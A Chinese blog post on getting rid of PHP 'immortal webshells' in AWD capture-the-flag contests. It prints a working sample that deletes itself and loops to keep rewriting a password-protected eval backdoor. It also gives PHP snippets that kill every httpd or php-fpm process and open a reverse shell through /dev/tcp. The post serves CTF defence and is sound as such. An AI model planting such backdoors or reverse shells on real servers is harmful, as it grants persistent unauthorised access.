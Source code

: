 ```yaml
---
title: 干掉 PHP 不死马
date: 2019-04-04 23:20:56
tags: [awd, web]
---
```


在 AWD 模式下经常碰到不死马, 不干掉的话就会一直被偷 flag, 很难受. 所以研究一下怎么干掉.  

<!--more-->

## 什么是不死马

先说一下什么是不死马, 比如这种  

```php
<?php
set_time_limit(0);
ignore_user_abort(1);
unlink(__FILE__);
while (1) {
    $content = "<?php error_reporting(0);if(sha1(\$_POST['pwd'])==='%pwd%'){eval(\$_POST['cmd']);}?>";
    file_put_contents(".shell.php", $content);
    usleep(10000);
}
?>
```

简单来说有以下特性:  
* 访问后删除自己
* 即使断开连接也不会停止
* 驻留在内存中定时做某些事情, 比如上面这种就是不停的写 webshell

根据行为也可以将不死马分为两种, 一种是 while(1) 不 sleep, 占用服务器资源, 卡机子,  还有一种是 sleep, 悄悄的留后门  
如果不懂怎么干掉的话, 唯一的办法就是重启环境了, 而这在 AWD 中一般都是会倒扣不少分的...  

接下来了解一下 php 主流的两种运行模式 `php-fpm` 与 `php-apache` 这两种,  
`php-fpm` 适用于 `nginx` 和 `apache` 而 `php-apache` 自然是只能 `apache` 使用,  
其中 fpm 的性能更好, 但是配置较为复杂(其实也不是很复杂 233),  在 AWD 我只遇见过 `php-apache` 这种 0.0  
但是其实要干掉不死马, 步骤都差不多  

## 干掉不死马

### php-apache

在这种模式下, 会在 fork 的一个 apache 进程里面以低权限用户来处理 php, 如下图  

![](https://i.loli.net/2019/04/04/5ca626d682f9d.png#center)

我们只要杀掉所以这些进程就行, 但在 AWD 中一般是没 root 权限的, 我们要干掉这些只能以低权限的身份来. 这里有两种办法  
1. 给自己在 web 目录下写一个 php, 里面是 
```php
<?php
system("kill `ps -ef | grep httpd | grep -v grep | awk '{print $2}'`");
```
如果觉得碰到不死马了就直接访问, 杀掉所有 httpd 进程, 因为权限不够, root 的不会被杀掉, 这个守护进程会自动再 fork 进程, 不用担心服务挂  

2. 写个 php 给自己弹个 shell, 在 shell 里面 killall, 这个更方便一点, 也更灵活
```php
<?php
system("bash -i >& /dev/tcp/127.0.0.1/23333 0>&1");
```

### php-fpm

其实跟上面差不多, 只是进程名不同, 因为 fpm 是独立的服务, 不同于上面 apache 里面直接调用 php 的 api  
![](https://i.loli.net/2019/04/05/5ca62d252ca42.png#center)

```php
<?php
system("kill `ps -ef | grep php-fpm | grep -v grep | awk '{print $2}'`");
```
